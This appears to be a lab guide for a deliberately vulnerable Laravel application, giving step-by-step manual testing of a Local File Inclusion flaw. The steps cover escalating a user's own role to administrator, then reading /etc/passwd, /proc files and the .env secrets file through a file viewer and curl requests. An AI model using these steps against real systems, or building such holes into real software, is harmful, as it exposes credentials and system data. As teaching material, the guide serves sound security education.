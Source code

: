# Manual LFI Testing Guide

This guide explains how to manually test the Local File Inclusion (LFI) vulnerability in the lab environment.

## Prerequisites

1. **Application is running**: `http://localhost:8000`
2. **User account**: Any registered user
3. **Role escalation**: Change role to "Administrador" or "Programador"

## Step-by-Step Testing

### 1. Access the Application
```
http://localhost:8000
```

### 2. Login with any user account
- Register a new account or use existing credentials
- Complete the login process

### 3. Elevate Privileges (Role Escalation)
1. Go to your user profile
2. Edit your profile information
3. Change your role to "Administrador" or "Programador"
4. Save the changes

### 4. Access the LFI Interface
1. Navigate to the admin panel
2. Look for "Sistema" in the sidebar menu
3. Click on "Visualizador de Arquivos"

### 5. Test File Reading
Try these file paths in the input field:

#### System Files
- `/etc/passwd` - User accounts
- `/proc/version` - Kernel version
- `/etc/hosts` - Hostname mapping
- `/proc/cpuinfo` - CPU information
- `/proc/meminfo` - Memory information

#### Application Files
- `/var/www/html/storage/logs/laravel.log` - Laravel logs
- `/var/www/html/.env` - Environment variables

### 6. API Testing (Advanced)
If you have access to the API endpoint, test with curl:

```bash
# Test with Laravel logs (default)
curl "http://localhost:8000/admin/system/log?file=/var/www/html/storage/logs/laravel.log"

# Test with system files
curl "http://localhost:8000/admin/system/log?file=/etc/passwd"

# Test with system info
curl "http://localhost:8000/admin/system/log?file=/proc/version"
```

## Expected Results

### Successful Response (JSON)
```json
{
    "file": "/var/www/html/storage/logs/laravel.log",
    "content": "[2025-07-07 01:46:26] local.ERROR: View [admin.layouts.app] not found...",
    "size": 106858,
    "success": true
}
```

### File Not Found Response
```json
{
    "error": "File not found: /nonexistent/file",
    "suggestions": [
        "/etc/passwd",
        "/proc/version",
        "/etc/hosts",
        "/var/www/html/storage/logs/laravel.log"
    ],
    "success": false
}
```

## Troubleshooting

### Issue: 404 Not Found
- **Cause**: Not authenticated or wrong URL
- **Solution**: Login first and use correct path

### Issue: Access Denied
- **Cause**: Insufficient privileges
- **Solution**: Change role to "Administrador" or "Programador"

### Issue: File Not Found
- **Cause**: File doesn't exist in container
- **Solution**: Try suggested alternative files

## Security Implications

This vulnerability demonstrates:
1. **Information Disclosure**: Reading sensitive system files
2. **Reconnaissance**: Gathering system information
3. **Privilege Escalation**: Accessing admin-only features
4. **Log Analysis**: Reading application logs

## Detection

Monitor these logs for LFI attempts:
- Laravel logs: `storage/logs/laravel.log`
- Web server logs: Check Docker container logs
- Application access logs: Admin panel activity

## Notes

- This is an intentionally vulnerable environment for educational purposes
- All file access attempts are logged
- The vulnerability allows reading any file accessible to the web server process
- Real-world applications should implement proper input validation and access controls 